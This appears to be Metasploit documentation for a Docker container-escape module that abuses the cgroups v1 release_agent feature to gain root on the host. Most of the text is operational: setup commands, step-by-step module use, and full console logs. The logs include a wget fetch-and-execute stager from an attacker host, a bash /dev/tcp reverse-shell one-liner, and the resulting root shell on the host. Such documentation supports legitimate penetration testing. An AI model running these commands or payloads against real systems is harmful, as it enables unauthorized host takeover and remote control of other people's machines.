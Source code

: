 ## Vulnerable Application

This exploit module takes advantage of a Docker image which has either the privileged flag, or SYS_ADMIN Linux capability.
If the host kernel is vulnerable, its possible to escape the Docker image and achieve root on the host operating system.

A vulnerability was found in the Linux kernel's cgroup_release_agent_write in the kernel/cgroup/cgroup-v1.c function.
This flaw, under certain circumstances, allows the use of the cgroups v1 release_agent feature to escalate privileges
and bypass the namespace isolation unexpectedly.

More simply put, cgroups v1 has a feature called release_agent that runs a program when a process in the cgroup terminates.
If notify_on_release is enabled, the kernel runs the release_agent binary as root. By editing the release_agent file,
an attacker can execute their own binary with elevated privileges, taking control of the system. However, the release_agent
file is owned by root, so only a user with root access can modify it.

### Docker Setup

`sudo docker run --rm -it --privileged ubuntu:20.04 bash`

or

`sudo docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu:20.04 bash`

You may want to install `wget` to make initial exploitation easier as well:

```
apt-get update
apt-get install -y wget
```

## Verification Steps

1. Install Docker and start a docker container
2. Start msfconsole
3. Get a shell on the docker image as root. 
4. Do: `use exploit/linux/local/docker_cgroup_escape`
5. Do: `set lhost [ip]`
6. Do: `set session [#]`
7. Do: `run`
2. You should get a root shell on the host OS.

## Options

## Scenarios

### Ubuntu 18.04 LTS with 4.15.0-96-generic kernel and Docker Ubuntu 20.04

Initial Access

```
resource (docker.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (docker.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (docker.rb)> set srvport 8181
srvport => 8181
resource (docker.rb)> set target 7
target => 7
resource (docker.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (docker.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8181/QZWpVr8t
[*] Server started.
[*] Run the following command on the target machine:
wget -qO dLFtachL --no-check-certificate http://1.1.1.1:8181/QZWpVr8t; chmod +x dLFtachL; ./dLFtachL& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 2.2.2.2    web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:60288) at 2023-11-28 13:38:39 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/) > getuid
Server username: root
(Meterpreter 1)(/) > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 4.15.0-96-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

Exploit the Docker Escape

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/local/docker_cgroup_escape
[*] Using configured payload cmd/unix/reverse_bash
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set lhost 1.1.1.1
lhost => 1.1.1.1
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set lport 9988
lport => 9988
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set verbose true
verbose => true
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > run

[+] bash -c '0<&181-;exec 181<>/dev/tcp/1.1.1.1/9988;sh <&181 >&181 2>&181'
[*] Started reverse TCP handler on 1.1.1.1:9988 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Unable to determine host OS, this check method is unlikely to be accurate if the host isn't Ubuntu
[+] The target is vulnerable. IF host OS is Ubuntu, kernel version 4.15.0-96-generic is vulnerable
[*] Creating folder for mount: /tmp/eH7EY
[*] Creating directory /tmp/eH7EY
[*] /tmp/eH7EY created
[*] Mounting cgroup
[*] Creating folder in cgroup for exploitation: /tmp/eH7EY/qe0oj7G
[*] Creating directory /tmp/eH7EY/qe0oj7G
[*] /tmp/eH7EY/qe0oj7G created
[*] Enabling notify on release for group qe0oj7G
[*] Determining the host OS path for image
[*] Host OS path for image: /var/lib/docker/overlay2/c8b82079007d1f6dcf042787cd450ffe045595be11c29ca5b119d1802cfaa22f/diff
[*] Setting release_agent path to: /var/lib/docker/overlay2/c8b82079007d1f6dcf042787cd450ffe045595be11c29ca5b119d1802cfaa22f/diff/tmp/KksBaCbF
[*] Uploading payload to /tmp/KksBaCbF
[*] Writing '/tmp/KksBaCbF' (88 bytes) ...
[*] Triggering payload with command: sh -c "echo $$ > /tmp/eH7EY/qe0oj7G/cgroup.procs"
[*] Command shell session 2 opened (1.1.1.1:9988 -> 2.2.2.2:54990) at 2023-11-28 14:39:10 -0500
[*] Cleanup: Unmounting /tmp/eH7EY

FDjfSpoVnqvGmrtBOSRfABBgFMmcSkbT
id
uid=0(root) gid=0(root) groups=0(root)
cat /etc/os-release
NAME="Ubuntu"
VERSION="18.04 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
```
